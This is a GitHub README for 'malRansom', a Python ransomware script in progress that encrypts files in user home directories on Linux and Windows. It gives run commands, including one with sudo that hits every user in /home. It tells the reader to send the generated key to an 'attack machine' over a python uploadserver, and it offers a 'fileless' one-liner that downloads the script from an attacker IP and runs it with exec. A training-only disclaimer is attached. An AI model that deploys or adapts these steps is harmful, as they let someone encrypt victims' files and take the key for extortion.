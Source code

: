 # malRansom
Python code that encrypts files in a user's home or users' /home directory. IMPORTANT: In progress!
# Description
First, I would like to say this is for training purposes only and not to be used in any nefarious way. Definitely, 3rawm05nar.py is not a real 
sophisticated piece of code. The encryption/decryption files have only been tested on Redhat 9, Ubuntu 22.04, and Windows 11. Windows takes longer to run the full script and requires that python3 is installed to run. On Redhat, 3rawm05nar.py may have to be ran twice due to missing packages.
# Requirements
There are different ways to conjure up an upload server, but recommend installing the module "uploadserver" for python3. It is easy to use and allows you to
upload your key to your attack machine. It highly recommended that you are able to upload files to python3 server before running script.
# Remember
IMPORTANT: Read the comments at the top of the python script before use. Update the Url for the uploading of the key and include port too. Just an idea... the key is generated at execution, but could be downloaded and passed as a string to eliminate the liability of the uploadserver. The code would have to be refactored at that point and a key would have to be generated prior. Windows will only affect the current user's home directory. Linux is ran with sudo and affects all users in /home.
# Windows
python3 .\3raw05nar.py
# Linux
sudo python3 3raw05nar.py
# Python Upload Server
pip3 install uploadserver
Your machine - Example: python3 -m uploadserver 44444
# Fileless Approach
python3 -c ("""from urllib.request import urlopen;url = 'http://< YOUR IP >/< DIRECTORY >/3rawm05nar.py';outtie = urlopen(url).read();getit = outtie.decode('utf-8');exec(outtie)""")
# Additional Resources
NetworkChuck

https://www.youtube.com/watch?v=UtMMjXOlRQc&t=609s

HTTP/HTTPS python upload server

https://pypi.org/project/uploadserver/

Python simplehttpserver

https://stackoverflow.com/questions/39788591/python-simplehttpserver-to-receive-files
